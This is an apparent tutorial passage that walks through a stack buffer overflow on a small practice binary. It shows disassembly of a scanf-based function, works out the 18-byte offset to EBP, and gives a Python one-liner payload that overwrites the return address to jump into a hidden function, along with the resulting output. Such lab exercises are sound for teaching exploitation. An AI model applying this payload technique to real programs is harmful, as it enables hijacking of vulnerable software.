 ```
 80484a4:    55                       push   %ebp
 80484a5:    89 e5                    mov    %esp,%ebp
 80484a7:    83 ec 18                 sub    $0x18,%esp
 80484aa:    83 ec 08                 sub    $0x8,%esp
 80484ad:    8d 45 ee                 lea    -0x12(%ebp),%eax
 80484b0:    50                       push   %eax
 80484b1:    68 a0 85 04 08           push   $0x80485a0
 80484b6:    e8 b5 fe ff ff           call   8048370 <__isoc99_scanf@plt>
 80484bb:    83 c4 10                 add    $0x10,%esp
 80484be:    83 ec 08                 sub    $0x8,%esp
 80484c1:    8d 45 ee                 lea    -0x12(%ebp),%eax
 80484c4:    50                       push   %eax
 80484c5:    68 a3 85 04 08           push   $0x80485a3
 80484ca:    e8 71 fe ff ff           call   8048340 <printf@plt>
 80484cf:    83 c4 10                 add    $0x10,%esp
 80484d2:    90                       nop
 80484d3:    c9                       leave
 80484d4:    c3                       ret

080484d5 <main>:
...
 80484df:    55                       push   %ebp
 80484e0:    89 e5                    mov    %esp,%ebp
 80484e2:    51                       push   %ecx
 80484e3:    83 ec 04                 sub    $0x4,%esp
 80484e6:    e8 b9 ff ff ff           call   80484a4 <foo>
...

```

Notice these instruction in `foo`
```
 80484ad:    8d 45 ee                 lea    -0x12(%ebp),%eax
 80484b0:    50                       push   %eax
 80484b1:    68 a0 85 04 08           push   $0x80485a0
 80484b6:    e8 b5 fe ff ff           call   8048370 <__isoc99_scanf@plt>
```

The value of 0x12 is subtracted from `$ebp` and is then pushed to stack for call to `scanf`.
We know that one of them is nothing but buffer that scanf inputs.
This must be the buffer that needs to inject. base16(12) == base10(18). Our buffer is 18 bytes from `$ebp`.

Finally we are ready to craft the payload.
``echo -e `python -c 'print "A"*18+<Dummay valur for EBP>+<Return address>'` | ./first ``
The exact payload looks like:
``echo -e `python -c 'import struct;print "A"*18+"BBBB"+struct.pack("<I", 0x0804848b )'` | ./first ``

```
Hello ji AAAAAAAAAAAAAAAAAABBBB?
How come you entered into bar ?
Segmentation fault (core dumped)
```
